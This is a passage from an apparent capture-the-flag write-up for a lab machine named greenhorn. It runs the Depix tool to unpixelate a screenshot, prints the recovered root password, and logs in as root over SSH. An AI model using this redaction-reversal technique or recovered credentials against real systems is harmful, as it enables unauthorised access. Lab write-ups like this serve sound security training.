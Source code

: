 ```bashsession
```

Oddly, this file does not exist. We cannot create this file ourselves to exploit because we do not have permissions.

```bashsession
┌─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $python3 depix.py -p output-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o unpix.png
2024-07-26 00:08:21,427 - Loading pixelated image from output-000.ppm
2024-07-26 00:08:21,441 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-26 00:08:21,891 - Finding color rectangles from pixelated space
2024-07-26 00:08:21,892 - Found 252 same color rectangles
2024-07-26 00:08:21,892 - 190 rectangles left after moot filter
2024-07-26 00:08:21,892 - Found 1 different rectangle sizes
2024-07-26 00:08:21,893 - Finding matches in search image
2024-07-26 00:08:21,893 - Scanning 190 blocks with size (5, 5)
2024-07-26 00:08:21,913 - Scanning in searchImage: 0/1674
2024-07-26 00:08:55,012 - Removing blocks with no matches
2024-07-26 00:08:55,013 - Splitting single matches and multiple matches
2024-07-26 00:08:55,016 - [16 straight matches | 174 multiple matches]
2024-07-26 00:08:55,016 - Trying geometrical matches on single-match squares
2024-07-26 00:08:55,261 - [29 straight matches | 161 multiple matches]
2024-07-26 00:08:55,261 - Trying another pass on geometrical matches
2024-07-26 00:08:55,476 - [41 straight matches | 149 multiple matches]
2024-07-26 00:08:55,476 - Writing single match results to output
2024-07-26 00:08:55,477 - Writing average results for multiple matches to output
2024-07-26 00:08:58,106 - Saving output image to: unpix.png
┌─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $


```

The unpixelated image reveals the password to be: `sidefromsidetheothersidesidefromsidetheotherside`

```bashsession
┌─[✗]─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $ssh root@10.10.11.25
root@10.10.11.25's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 26 07:14:01 AM UTC 2024

  System load:           0.01
  Usage of /:            57.0% of 3.45GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             257
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.25
  IPv6 address for eth0: dead:beef::250:56ff:feb0:77ef


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~# cd /root
root@greenhorn:~# ls
```